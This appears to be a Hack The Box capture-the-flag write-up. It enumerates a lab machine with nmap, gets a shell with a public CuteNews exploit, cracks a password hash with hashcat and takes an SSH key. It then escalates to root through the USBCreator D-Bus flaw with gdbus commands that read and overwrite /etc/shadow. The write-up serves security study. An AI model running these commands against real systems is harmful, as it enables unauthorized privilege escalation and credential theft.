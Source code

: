 # Box 



![image-20210124120821454](img/image-20210124120821454.png)

https://www.hackthebox.eu/home/machines/profile/275

# Profile

 <img src="http://www.hackthebox.eu/badge/image/296177" alt="Hack The Box"> 

https://www.hackthebox.eu/home/users/profile/296177

# Table of contents

* [Enumeration](#enumeration)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [User 2](#user-2)
  + [Root](#root)
* [Bonus](#bonus)

# Contents 

## Enumeration

Let's start with nmap :

```bash
nmap -sV -sC -Pn --top-ports 1000 -oN scan_10.10.10.206 10.10.10.206
```

![image-20210124131826442](img/image-20210124131826442.png)

We have a webpage. Let's take a look.

![image-20210124131856899](img/image-20210124131856899.png)

At the bottom of the page we can find 

![image-20210124131922870](img/image-20210124131922870.png)

Searching for "CuteNews" brings us to a lot of differents exploit, one that I find using searchsploit is this one : https://www.exploit-db.com/exploits/48800

## Exploitation

By using this software we have now a shell : 

![image-20210124132340137](img/image-20210124132340137.png)

We also got several hashes that I am gonna try to decrypt : 

![image-20210124141337723](img/image-20210124141337723.png)

Running hashcat : 

```bash
hashcat -m 1400 hash.txt rockyou.txt
```

We got one successful password. 

```bash
e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd:atlanta1
```



We can now try to elevate to the user.

## Post-Exploitation

### User 1



After a while on the box, I find a file in `/var/www/html/CuteNews/cdata/users` which seems to contains multiple base64 encoded strings  

![image-20210124135949548](img/image-20210124135949548.png)

By decoding these string I can see the hash that we cracked earlier. 

![image-20210124141818570](img/image-20210124141818570.png)

Let's try to login as paul : 

![image-20210124141100349](img/image-20210124141100349.png)

### User 2

After one or two hours trying to find a file that seems suspicious I checked the .ssh keys that are by default in the folder :

![image-20210124162512508](img/image-20210124162512508.png)

And that was that simple. The private key is probably the nadav one so we just have to get it.

![image-20210124162716519](img/image-20210124162716519.png)

to root.

### Root

We can see there is a .viminfo file where we can see the history, there is one particular interesting file  : `/etc/dbus-1/system.d/com.ubuntu.USBCreator.conf`

![image-20210308135701236](img/image-20210308135701236.png)



After a while i found this privesc using USBCreator : 

https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/

We can just copy/paste the command to get our flag :

```bash
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/root.txt /tmp/flag.txt true
```

![image-20210308135939023](img/image-20210308135939023.png)

![image-20210308140025046](img/image-20210308140025046.png)

Rooted.



## Bonus

If you want to get a root shell you can use the previous command to copy the `/etc/shadow` file :

```bash
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /etc/shadow /tmp/shadow true
```

then use your own custom password and replace the system shadow file with your own :

```bash
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /tmp/shadow /etc/shadow true
```

![image-20210308140931645](img/image-20210308140931645.png)